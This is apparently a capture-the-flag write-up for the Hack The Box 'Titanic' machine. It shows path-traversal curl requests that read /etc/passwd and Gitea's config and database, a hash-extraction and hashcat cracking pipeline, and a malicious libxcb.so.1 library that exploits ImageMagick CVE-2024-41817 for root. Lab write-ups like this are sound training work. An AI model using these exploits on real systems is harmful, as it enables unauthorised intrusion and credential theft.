


# Titanic

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-badge wu-diff wu-diff--easy">Easy</span>
<span class="wu-tags">
<span class="wu-tag">Arbitrary file read</span>
<span class="wu-tag">Gitea loot</span>
<span class="wu-tag">Hash cracking</span>
<span class="wu-tag">ImageMagick CVE</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Titanic chains a web arbitrary file read into a full compromise. A booking endpoint reads files with no path validation, which is enough to loot a Gitea instance's config and SQLite database, crack a user hash, and SSH in. Root comes from a scheduled ImageMagick job running a version vulnerable to an arbitrary code execution CVE.

## Attack path

1. Fuzz vHosts, find a Gitea `dev` subdomain, and read its source to spot a path-traversal download endpoint.
2. Use the file read to pull Gitea's config and SQLite DB, crack the `developer` hash, and SSH in.
3. Exploit a vulnerable ImageMagick (CVE-2024-41817) invoked by a scheduled script to read the root flag.

**Tools:** ffuf, wfuzz, curl, sqlite3, hashcat, gcc, ImageMagick.

## Enumeration

Set the target and scan:

```bash
IP=10.10.11.55

# Initial fast port discovery
ports=$(nmap -p- --min-rate=1000 -T4 -n --open $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') && echo $ports

# Comprehensive TCP scan
sudo nmap -p$ports -sC -sV -O --script=vuln --script-timeout=30 $IP -oA scan_tcp

# UDP scan
sudo nmap -sU --top-ports 1000 --min-rate=500 -T4 -sC -sV -oA scan_udp $IP
```

### Nmap results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
| http-server-header:
|   Apache/2.4.52 (Ubuntu)
|_  Werkzeug/3.0.3 Python/3.10.12
|_http-title: Titanic - Book Your Ship Trip
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Only SSH and HTTP are open. Add `titanic.htb` to `/etc/hosts` and start enumerating the web app.

## Foothold

Fuzz for content and vHosts:

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/big.txt --hc 404 titanic.htb/FUZZ
ffuf -w /usr/share/seclists/Discovery/Web-Content/big.txt -u http://titanic.htb/ -H "Host:FUZZ.titanic.htb" -fc 301
```

ffuf quickly returns `dev.titanic.htb`. Add it to `/etc/hosts` and it serves a Gitea instance. Browse the source at `http://dev.titanic.htb/developer/flask-app` and note `app.py`, line 29:

```python
json_filepath = os.path.join(TICKETS_DIR, json_filename)
```

There is no validation on the filename, so the download endpoint is vulnerable to path traversal. Confirm it by reading `/etc/passwd`:

```bash
curl "http://titanic.htb/download?ticket=../../../etc/passwd"
```

`/etc/passwd` shows a `developer` user, which is a good guess for who runs the Gitea server. Gitea's [Docker docs](https://docs.gitea.com/installation/install-with-docker) note the config lives at `/data/gitea/conf/app.ini`, so pull it, then pull the database it points to:

```bash
curl "http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/conf/app.ini"
curl "http://titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db"
```

<figure class="wu-evidence" markdown>

<figcaption>The recovered Gitea configuration confirms the SQLite backend and supplies the database path needed for credential extraction.</figcaption>
</figure>

Extract the hashes into a hashcat-readable format (Gitea stores PBKDF2/sha256 with a per-user salt):

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

Crack it:

```bash
hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user
```

??? success "Cracked developer credentials"
    `developer:25282528`

SSH in with those credentials to grab the user flag:

```bash
ssh developer@titanic.htb
```

## Privilege escalation

The usual quick wins are dead ends here: `sudo -l` gives nothing, and we cannot execute uploaded enumeration scripts. Look for writable directories instead:

```bash
find / -writable -type d 2>/dev/null
# .../opt/app/tickets ...
```

Nearby, `/opt/scripts` holds a scheduled script that runs ImageMagick over `/opt/app/static/assets/images/` and writes to a `metadata.log`. Check the ImageMagick version:

<figure class="wu-evidence" markdown>

<figcaption>The scheduled script runs ImageMagick from the application image directory, creating the working-directory condition needed by the library-loading exploit.</figcaption>
</figure>

```bash
/usr/bin/magick --version
# 7.1.1-35
```

That version is vulnerable to [CVE-2024-41817](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8), an arbitrary code execution issue via a malicious `libxcb.so.1` in the working directory. Build a shared library that copies the root flag out and makes it readable:

```bash
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt /opt/app/static/assets/images/root.txt; chmod 754 /opt/app/static/assets/images/root.txt");
    exit(0);
}
EOF
```

Drop the compiled `libxcb.so.1` into `/opt/app/static/assets/images`, wait for the scheduled job to run ImageMagick, and the readable `root.txt` appears.
